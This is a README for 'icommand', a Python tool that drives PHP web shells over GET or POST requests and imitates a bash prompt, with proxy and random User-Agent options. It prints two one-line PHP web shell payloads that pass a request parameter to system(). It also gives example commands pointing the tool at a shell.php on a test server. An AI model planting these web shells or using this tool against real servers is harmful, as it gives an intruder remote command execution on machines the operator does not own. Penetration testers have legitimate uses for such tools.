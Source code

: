 icommand - command controller for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)  

### Info: ###
---
icommand is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...  
The script tries to simulate Linux bash as it works from CLI.  
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".  
It sends requests to the server through urllib/urllib2 [Python][] modules.   

* icommand works for **POST** and **GET** requests:
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python icommand.py --url http://testserver.com/shell.php?cmd=  
    - python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd
    - python icommand.py -u http://testserver.com -p id --proxy http://127.0.0.1:8080  
    - python icommand.py -u http://testserver.com/shell.php?cmd= --random-agent

[Python]: http://www.python.org/download/
__p.s.__
---
[argparse]: http://docs.python.org/library/argparse.html
If your [Python][]'s version < 7.X  
Then [argparse][] is required.  
To install it run:  
`easy_install argparse` **OR** `pip install argparse`


